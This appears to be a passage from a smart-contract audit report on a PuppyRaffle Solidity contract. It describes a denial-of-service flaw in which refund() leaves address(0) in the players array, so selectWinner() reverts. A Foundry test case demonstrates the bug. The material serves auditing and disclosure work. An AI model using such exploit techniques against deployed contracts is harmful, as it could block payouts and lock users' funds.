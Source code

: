 Use Chainlink's VRF to generate a random number to select the winner.



## H-04.Potential Vulnerability to DoS Attack

### Summary

When a player called the ` refund() ` function,he can get the refunds from the contract. 

However,the contract merely changes his address to address(0) and does not actually remove him from the address[] array。

If the winner is that player,the transaction will keep reverting when the contract calls the ` _safeMint ` function.



### Vulnerability Details

The vulnerability is located in the ` refund() ` function on line 103 and the ` selectWinner() ` function on line 153 of the ` PuppyRaffle.sol ` file,which mat lead to a potential DoS attack.

```solidity
function refund(uint256 playerIndex) public {
    ...
    players[playerIndex] = address(0);
    ...
}

function selectWinner() external {
    ...
    _safeMint(winner, tokenId);
    ...
}
```



### Proof of Concept

#### Test Case

```solidity
function testDosAttack() public playersEntered {
    // set the block.timestamp
    vm.warp(block.timestamp + duration + 1);
    // set the block.number
    vm.roll(block.number + 1);

    // playerFour call the refund
    // winner:playerFour
    vm.prank(playerFour);
    puppyRaffle.refund(3);

    // contract no ether
    // catch the expected revert
    // OutOfFunds error
    vm.expectRevert();
    puppyRaffle.selectWinner();

    // send 4 ether to puppyRaffle
    // pass the OutOfFunds error
    vm.deal(address(puppyRaffle), 4 ether);
    // catch the expected revert
    vm.expectRevert("ERC721: mint to the zero address");
    puppyRaffle.selectWinner();
}
```